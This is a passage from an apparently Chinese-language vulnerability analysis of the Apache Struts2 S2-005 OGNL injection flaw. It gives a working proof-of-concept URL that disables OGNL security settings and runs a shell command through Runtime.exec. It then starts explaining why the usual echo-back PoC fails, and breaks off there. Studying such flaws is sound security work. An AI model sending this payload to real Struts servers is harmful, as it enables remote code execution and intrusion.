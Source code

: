 <img src="pic/struts2_s2-005_5.png">

因此简单执行命令的PoC如下：
```
/xxx.action?
(a)(%5cu0023_memberAccess.excludeProperties%5cu003d@java.util.Collections@EMPTY_SET)
&(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('touch%5cu0020/tmp/success2'))
```

### 可回显PoC
与前面漏洞不同的是，本次漏洞的回显PoC无法向之前的方式去获取`com.opensymphony.xwork2.dispatcher.HttpServletResponse`对象来实现。经调试发现，因为当前`context`对象是在一个新的`OgnlValueStack`值栈对象(即`newStack`)里的，其中并没有这个键值，如下图：

